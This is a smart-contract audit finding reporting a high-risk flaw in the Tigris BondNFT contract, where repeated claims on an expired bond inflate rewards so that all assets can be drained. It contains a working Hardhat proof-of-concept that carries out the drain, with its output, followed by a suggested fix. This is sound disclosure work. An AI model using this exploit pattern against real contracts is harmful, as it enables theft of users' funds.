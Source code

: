 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-05

# [Malicious user can steal all assets in BondNFT](https://github.com/code-423n4/2022-12-tigris-findings/issues/170) 

# Lines of code

https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/BondNFT.sol#L168-L187


# Vulnerability details

## Impact
Malicious user can drain all assets in BondNFT, and other users will lose their rewards.

## Proof of Concept
When calling [BondNFT.claim()](https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/BondNFT.sol#L168-L187) for an expired bond, it will recalculate `accRewardsPerShare`. This is because the reward after the `expireEpoch` does not belong to that expired bond and needs to be redistributed to all other bonds.

```solidity
  if (bond.expired) {
      uint _pendingDelta = (bond.shares * accRewardsPerShare[bond.asset][epoch[bond.asset]] / 1e18 - bondPaid[_id][bond.asset]) - (bond.shares * accRewardsPerShare[bond.asset][bond.expireEpoch-1] / 1e18 - bondPaid[_id][bond.asset]);
      if (totalShares[bond.asset] > 0) {
          accRewardsPerShare[bond.asset][epoch[bond.asset]] += _pendingDelta*1e18/totalShares[bond.asset];
      }
  }
```

In the current implementation of [BondNFT.claim()](https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/BondNFT.sol#L168-L187), it can be called repeatedly as long as the expired bond is not released.

According to the formula in the above code, we can find that although each subsequent `claim()` of the expired bond will transfer 0 reward, the `accRewardsPerShare` will be updated cumulatively.
Thus, the pending rewards of all other users will increase every time the expired bond is `claim()`ed.

A malicious user can exploit this vulnerability to steal all assets in BondNFT contract:
1. Create two bonds (B1, B2) with different `expireEpoch`
2. At some time after B1 has expired (B2 has not), keep calling [`Lock.claim(B1)`](https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/Lock.sol#L34) to increase rewards of B2 continuously, until the pending rewards of B2 approaches the total amount of asset in the contract.
3. Call [`Lock.claim(B2)`](https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/Lock.sol#L34) to claim all pending rewards of B2.

An example of such an attack:
```javascript
diff --git a/test/09.Bonds.js b/test/09.Bonds.js
index 16c3ff5..7c445c3 100644
--- a/test/09.Bonds.js
+++ b/test/09.Bonds.js
@@ -245,7 +245,90 @@ describe("Bonds", function () {
       await lock.connect(user).release(2);
       expect(await bond.pending(1)).to.be.equals("999999999999999999725"); // Negligable difference from 1000e18 due to solidity division
     });
+
+    it.only("Drain BondNFT rewards", async function () {
+      const getState = async () => {
+        const balHacker= await stabletoken.balanceOf(hacker.address);
+        const balLock = await stabletoken.balanceOf(lock.address);
+        const balBond = await stabletoken.balanceOf(bond.address);
+        const [pending1, pending2, pending3] = [await bond.pending(1), await bond.pending(2), await bond.pending(3)];
+        return { hacker: balHacker, lock: balLock, bond: balBond, pending1, pending2, pending3};
+      };
+      const parseEther = (v) => ethers.utils.parseEther(v.toString());
+      const gwei = parseEther(1).div(1e9);
+
+      // prepare tokens
+      const TotalRewards = parseEther(8000);
+      await stabletoken.connect(owner).mintFor(owner.address, TotalRewards);
+      await stabletoken.connect(owner).mintFor(user.address, parseEther(1000));
+      const hacker = rndAddress;
+      await stabletoken.connect(owner).mintFor(hacker.address, parseEther(2000+700));
+      await stabletoken.connect(hacker).approve(Lock.address, parseEther(2000));
+
+      // bond1 - user
+      await lock.connect(user).lock(StableToken.address, parseEther(1000), 100);
+      await bond.distribute(stabletoken.address, parseEther(3800));
+      expect(await bond.pending(1)).to.be.closeTo(parseEther(3800), gwei);
+      // Skip some time
+      await network.provider.send("evm_increaseTime", [20*86400]);
+      await network.provider.send("evm_mine");
+
+      // bond2 - hacker
+      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 10);
+      // bond3 - hacker
+      await lock.connect(hacker).lock(StableToken.address, parseEther(1000), 100);
+
+      await bond.distribute(stabletoken.address, parseEther(2100));
+
+      // Skip 10+ days, bond2 is expired
+      await network.provider.send("evm_increaseTime", [13*86400]);
+      await network.provider.send("evm_mine");
+      await bond.distribute(stabletoken.address, parseEther(2100));
+
+      // check balances before hack
+      let st = await getState();
+      expect(st.bond).to.be.equals(TotalRewards);
+      expect(st.lock).to.be.equals(parseEther(3000));
+      expect(st.hacker).to.be.equals(parseEther(0+700));
+      expect(st.pending1).to.be.closeTo(parseEther(3800+1000+1000), gwei);
+      expect(st.pending2).to.be.closeTo(parseEther(100), gwei);
+      expect(st.pending3).to.be.closeTo(parseEther(1000+1000), gwei);
+
+      // first claim of expired bond2
+      await lock.connect(hacker).claim(2);
+      st = await getState();
+      expect(st.bond).to.be.closeTo(TotalRewards.sub(parseEther(100)), gwei);
+      expect(st.hacker).to.be.closeTo(parseEther(100+700), gwei);
+      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
+      expect(st.pending2).to.be.eq(parseEther(0));
+      expect(st.pending3).to.be.gt(parseEther(1000+1000));
+
+      // hack
+      const remainReward = st.bond;
+      let pending3 = st.pending3;
+      let i = 0;
+      for (; remainReward.gt(pending3); i++) {
+        // claim expired bond2 repeatedly
+        await lock.connect(hacker).claim(2);
+        // pending3 keeps increasing
+        pending3 = await bond.pending(3);
+      }
+      console.log(`claim count: ${i}\nremain: ${ethers.utils.formatEther(remainReward)}\npending3: ${ethers.utils.formatEther(pending3)}\n`);
+
+      // send diff, then drain rewards in bond
+      await stabletoken.connect(hacker).transfer(bond.address, pending3.sub(remainReward));
+      await lock.connect(hacker).claim(3);
+      st = await getState();
+      // !! bond is drained !!
+      expect(st.bond).to.be.eq(0);
+      // !! hacker gets all rewards !!
+      expect(st.hacker).to.be.eq(TotalRewards.add(parseEther(700)));
+      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
+      expect(st.pending2).to.be.eq(0);
+      expect(st.pending3).to.be.eq(0);
+    });
   });
+
   describe("Withdrawing", function () {
     it("Only expired bonds can be withdrawn", async function () {
       await stabletoken.connect(owner).mintFor(owner.address, ethers.utils.parseEther("100"));
```

Output:
```
  Bonds
    Rewards
claim count: 41
remain: 7900.000000000000000002
pending3: 8055.7342616570405578

      ✓ Drain BondNFT rewards

  1 passing (4s)

```

## Tools Used
VS Code

## Recommended Mitigation Steps
I recommend that an expired bond should be forced to `release()`, `claim()` an expired bond should revert.

Sample code:

```solidity

diff --git a/contracts/BondNFT.sol b/contracts/BondNFT.sol
index 33a6e76..77e85ae 100644
--- a/contracts/BondNFT.sol
+++ b/contracts/BondNFT.sol
@@ -148,7 +148,7 @@ contract BondNFT is ERC721Enumerable, Ownable {
         amount = bond.amount;
         unchecked {
             totalShares[bond.asset] -= bond.shares;
-            (uint256 _claimAmount,) = claim(_id, bond.owner);
+            (uint256 _claimAmount,) = _claim(_id, bond.owner);
             amount += _claimAmount;
         }
         asset = bond.asset;
@@ -157,8 +157,9 @@ contract BondNFT is ERC721Enumerable, Ownable {
         _burn(_id);
         emit Release(asset, lockAmount, _owner, _id);
     }
+
     /**
-     * @notice Claim rewards from a bond
+     * @notice Claim rewards from an unexpired bond
      * @dev Should only be called by a manager contract
      * @param _id ID of the bond to claim rewards from
      * @param _claimer address claiming rewards
@@ -168,6 +169,22 @@ contract BondNFT is ERC721Enumerable, Ownable {
     function claim(
         uint _id,
         address _claimer
+    ) public onlyManager() returns(uint amount, address tigAsset) {
+        Bond memory bond = idToBond(_id);
+        require(!bond.expired, "expired");
+        return _claim(_id, _claimer);
+    }
+
+    /**
+     * @notice Claim rewards from a releasing bond or an unexpired bond
+     * @param _id ID of the bond to claim rewards from
+     * @param _claimer address claiming rewards
+     * @return amount amount of tigAsset claimed
+     * @return tigAsset tigAsset token address
+     */
+    function _claim(
+        uint _id,
+        address _claimer
     ) public onlyManager() returns(uint amount, address tigAsset) {
         Bond memory bond = idToBond(_id);
         require(_claimer == bond.owner, "!owner");
```

